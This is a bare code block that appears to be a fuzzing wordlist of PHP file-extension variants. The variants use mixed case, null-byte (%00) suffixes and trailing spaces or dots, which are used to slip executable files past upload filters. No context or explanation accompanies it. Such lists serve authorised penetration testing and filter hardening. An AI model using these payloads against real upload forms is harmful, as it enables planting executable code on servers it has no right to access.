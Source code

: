 ```!
phtml
php
php3
php4
php5
inc
pHtml
pHp
pHp3
pHp4
pHp5
iNc
iNc%00
iNc%20%20%20
iNc%20%20%20...%20.%20..
iNc......
inc%00
inc%20%20%20
inc%20%20%20...%20.%20..
inc......
pHp%00
pHp%20%20%20
pHp%20%20%20...%20.%20..
pHp......
pHp3%00
pHp3%20%20%20
pHp3%20%20%20...%20.%20..
pHp3......
pHp4%00
pHp4%20%20%20
pHp4%20%20%20...%20.%20..
pHp4......
pHp5%00
pHp5%20%20%20
pHp5%20%20%20...%20.%20..
pHp5......
pHtml%00
pHtml%20%20%20
pHtml%20%20%20...%20.%20..
pHtml......
php%00
php%20%20%20
php%20%20%20...%20.%20..
php......
php3%00
php3%20%20%20
php3%20%20%20...%20.%20..
php3......
php4%00
php4%20%20%20
php4%20%20%20...%20.%20..
php4......
php5%00
php5%20%20%20
php5%20%20%20...%20.%20..
php5......
phtml%00
phtml%20%20%20
phtml%20%20%20...%20.%20..
phtml......
```
